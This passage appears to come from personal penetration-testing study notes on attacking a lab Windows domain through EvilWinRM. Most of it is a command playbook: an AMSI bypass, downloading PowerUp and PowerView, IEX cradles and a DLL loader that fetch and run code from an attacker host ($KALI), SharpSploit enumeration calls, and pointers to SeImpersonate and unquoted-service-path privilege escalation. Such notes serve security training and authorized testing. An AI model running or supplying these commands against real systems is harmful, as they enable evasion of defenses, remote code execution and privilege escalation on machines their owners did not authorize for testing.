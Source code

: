 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |
#### 24 EvilWinRM
![[Port 5985 - WinRM ~#Steps]]
#### 25 EvilWinRM + Local Priv Esc Upload and Download
![[Port 5985 - WinRM ~#Downloading files - MUST USE FULL PATHS]]
![[Port 5985 - WinRM ~#Uploading files - MUST USE FULL PATHS]]
#### 26 EvilWinRM + Local Priv Esc PowerView ps1
Download the following:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
```
```
menu
```
```
Bypass-4MSI
```
[[Python#Server]]
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerView.ps1')
```
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerUp.ps1')
```
```
Invoke-AllChecks
```
#### EvilWinRM + Local Privilege Escalation SharpSploit Enumeration
https://github.com/cobbr/SharpSploit
GUIDE: https://blog.king-sabri.net/red-team/how-to-compile-embed-and-use-sharpsploit
[[Python#Server]]
```
Bypass-4MSI
```
```
Dll-Loader -http -path http://$KALI/SharpSploit.dll
```
```
menu
```
```
[SharpSploit.
```
Hit tab a few times to see all possibilities!
```
[SharpSploit.Enumeration.Net]::GetNetLocalGroupMembers()
```
```
[SharpSploit.Enumeration.Net]::GetNetLocalGroups()
```
```
[SharpSploit.Enumeration.Net]::GetNetLoggedOnUsers()
```
```
[SharpSploit.Enumeration.Net]::GetNetSessions()
```
```
[SharpSploit.Enumeration.Net]::GetNetShares()
```
#### 33 EvilWinRM + Local Priv Esc SEImpersonate
[[7._Potato or PrintSpoofer#PrintSpoofer]]
#### 34 EvilWinRM + Local Priv Esc Unquoted Service Path
[[16._Unquoted Path]]
Depending on which folder we have read / write access to:
C:\Program.exe
C:\Program Files\Abyss.exe
C:\Program Files\Abyss Web\ Abyss Web Server\abyssws.exe
